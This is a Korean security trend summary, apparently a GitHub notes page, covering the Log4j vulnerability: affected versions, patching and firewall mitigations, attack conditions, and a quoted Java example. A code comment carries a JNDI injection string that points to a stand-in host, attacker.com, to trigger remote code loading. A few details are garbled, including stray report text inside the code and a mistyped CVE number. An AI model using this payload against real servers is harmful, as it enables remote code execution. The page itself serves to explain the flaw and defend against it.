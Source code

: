 [ㅁ 오픈소스 라이브러리 Log4j 취약점](#ㅁ-오픈소스-라이브러리-log4j-취약점)
[ㅁ 문서 프로그램의 취약점](#ㅁ-문서-프로그램의-취약점)
[ㅁ Apple 기기 취약점](#ㅁ-apple-기기-취약점)
[ㅁ  웹 컨텐츠 제작 프로그램의 취약점](#ㅁ--웹-컨텐츠-제작-프로그램의-취약점)

---

## 2021 하반기 취약점 동향

### ㅁ 오픈소스 라이브러리 Log4j 취약점

[Log4j 보안취약점 가이드](https://github.com/sungmin4036/infomation_security/blob/main/Recent_Issue/log4j%20%EB%B3%B4%EC%95%88%20%EC%B7%A8%EC%95%BD%EC%A0%90%20%EA%B0%80%EC%9D%B4%EB%93%9C.md)

- 취약대상 및 발생가능한 위협 : Apache Log4j 라이브러리 사용하는 서버 및 어플리케이션에 대한 원격 실행
- 대응방법 : 취약한 버전의 라이브러리 사용하는 어플리케이션의 경우 제조사(Apache)의 권고에 따라 최신 버전으로 패치
- 사고 시나리오 : 공격자는 특정 서식이 포함된 로그 메세지를 전달함으로써 임의의 코드를 서버 또는 클라이언트에 실행시킬수 있다.


\# Apache Log4j 2.17.0 이전 버전(2.21.2 제외)의 라이브러리 사용하는 모든 서버, 클라이언트는 취약점의 대상이다. 다만, Log4j-core JAR 파일 없이 Log4j-api JAR 파일만 사용하는  경우 취약점 영향X


![image](https://user-images.githubusercontent.com/62640332/160630012-64b550ab-1920-4d57-ab71-0a63e65c3a44.png)


Log4j의 업그레이드가 어려울 경우 웹 방화벽 또는 침입방지시스템(IPS)등을 이용하여 트래픽에서 공격코드를 차단할 수 있는 패턴을 등록하거나 아래의 설정 참조하면 임시 대응 가능.

그러나, CVE-201-44228를 대응하기 위해선 공식 Application 패치 권고.

![image](https://user-images.githubusercontent.com/62640332/160630268-81e4d37f-4b2f-4199-9ba5-cb1fecae644e.png)

- 공격 요건

1. 취약한 Log4j버전을 사용하고 있는 서버나 서비스
2. 공격자가 익스플로잇 문자열을 보낼 수 있는 프로토콜(HTTP, TCP 등)이 사용
3. 요청에 의한 로그의 결과 문자열 출력하는 경우

- 공격 코드의 예

```
import org.apache.logging.Log4j.LogManager;
import org.apache.logging.Log4j.Logger;
import java.io.*;
import java.sql.SQLException;2021년 하반기 사이버 위협 동향 보고서
26
import java.util.*;
public class VulnerableLog4jExampleHandler implements HttpHandler {
 static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());
 /**
 * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
 * This is pseudo-code to explain the vulnerability, and not a full example.
 * @param he HTTP Request Object
 */
 public void handle(HttpExchange he) throws IOException {
 String apiVersion = he.getRequestHeader("X-Api-Version");
 // This line triggers the RCE by logging the attacker-controlled HTTP header.
 // The attacker can set their X-Api-Version header to: ${jndi:ldap://attacker.com/a}
 log.info("Requested Api Version:{}", apiVersion);
 String response = "<h1>Hello from: " + apiVersion + "!</h1>";
 he.sendResponseHeaders(200, response.length());
 OutputStream os = he.getResponseBody();
 os.write(response.getBytes());
 os.close();
 }
}
```
